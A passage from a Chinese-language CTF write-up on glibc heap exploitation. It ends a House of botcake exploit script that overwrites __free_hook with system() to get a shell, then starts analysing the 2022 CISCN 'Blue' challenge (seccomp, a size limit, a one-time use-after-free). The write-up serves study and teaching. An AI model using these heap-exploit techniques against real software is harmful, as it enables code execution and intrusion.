 ```python
add(0x100,'\0'*0x80+p64(0)+p64(0x91)+p64(libc.sym.__free_hook)+p64(0)) # 11

'''
[*] 6. Hijack __free_hook --> Getshell
'''
add(0x80,'/bin/sh\0') # 12
add(0x80,p64(system_addr)) # 13 
dele(12)

p.interactive()
```

### 小结

通过本题，我们了解到了 House of botcake 的基本原理，以及单次任意分配堆块的简单 getshell 情形，下题我们将涉及到多次分配堆块、Size存在限制的较复杂 seccomp 沙箱情形。

0x03 当 Size 受限时的利用
==================

2022 CISCN 华东北赛区 Blue
---------------------

**Ubuntu GLIBC 2.31-0ubuntu9.8** 下的中等难度堆题，开了 seccomp 沙箱，ban 掉了常用的 `__malloc_hook` 和 `__free_hook` 。

### 分析

1. 首先我们通过 seccomp-tools 可以看到，本题禁用了 execve，无法简单地 getshell

![image-20220622183035574](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-44824ed07e2a9fab433c0896d58cd1857de0cdcc.png)

2. 每次进入菜单前会检测 `__malloc_hook` 和 `__free_hook` 是否被劫持，是的话调用 `_exit` 终止程序

![image-20220622183153318](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-13b238cc548dba2bb146162589eed73669bb724f.png)

3. 程序菜单实现了 `Add`，`Del`，`Show` 三项功能，除此外还有输入为 666 时仅一次可以进入的后门函数

![image-20220622183226639](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-98aa145540f8941de71fef168a3548d742433ab9.png)

4. `Add` 函数限制了用户申请的大小最大为 0x90，此处使后续 House of botcake 无法覆盖到 victim 的 next 指针

![image-20220622183448172](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-9117553149e069851dfb450ee36965b4489b6192.png)

5. `Del` 函数置零了被 Free 掉的堆块

![image-20220622183551585](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-0a7537e236e22d1f85ddaf81d99619059fd0b11e.png)

6. `Show` 函数仅一次可以调用 puts 输出堆块内容

![image-20220622183633862](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-a3e63620e207069505d505a8c373def823096842.png)

7. 后门函数仅一次的 UAF

![image-20220622183714312](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-c1db1bba10cd52bcd04241932c393bf09dd842e9.png)
